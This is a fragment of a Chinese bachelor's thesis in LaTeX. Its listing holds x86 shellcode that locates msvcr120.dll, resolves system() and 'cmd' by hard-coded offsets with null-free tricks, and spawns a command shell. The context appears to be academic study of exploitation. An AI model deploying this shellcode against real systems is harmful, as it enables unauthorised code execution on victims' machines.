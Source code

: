\documentclass[bachelor]{thesis-uestc}
\begin{document}
\begin{lstlisting}
	mov eax, [ebx + 0x18]; // LDR_MODULE偏移0x18处是模块的线性基地址BaseAddress
_GetSystemFuncEntry:
	mov ebx, eax;
	sub ebx, 0xfff9dec7;
	sub eax, 0xfff7f73e; // 用sub替换add, 使得代码中没有0x00. 加上一个数 <=> 减去这个数的相反数
	//add ebx, 0x62139; // 0x62139是msvcr120.dll中字符串"cmd"的RVA
	//add eax, 0x808c2; // 0x808c2是msvcr120.dll的export address table中记录的system函数的入口RVA
	push ebx;
	call eax; // 获得shell之后就结束了, 不必关注调用结束后的事情
MODULE_NOT_FOUND:
	jmp MODULE_NOT_FOUND; // endless loop
/*********************************************************/
/*                      Data                             */
/*********************************************************/
LIBC_NAME:
	_EMIT 'M';
	_EMIT 'S';
	_EMIT 'V';
	_EMIT 'C';
	_EMIT 'R';
	_EMIT '1';
	_EMIT '2';
	_EMIT '0';
	_EMIT '.';
	_EMIT 'd';
	_EMIT 'l';
	_EMIT 'l';
	_EMIT '$'; // '$'作为结束符, 因为shellcode中不能出现0x00
}
\end{lstlisting}

\chapter{总结及展望}
\end{document}
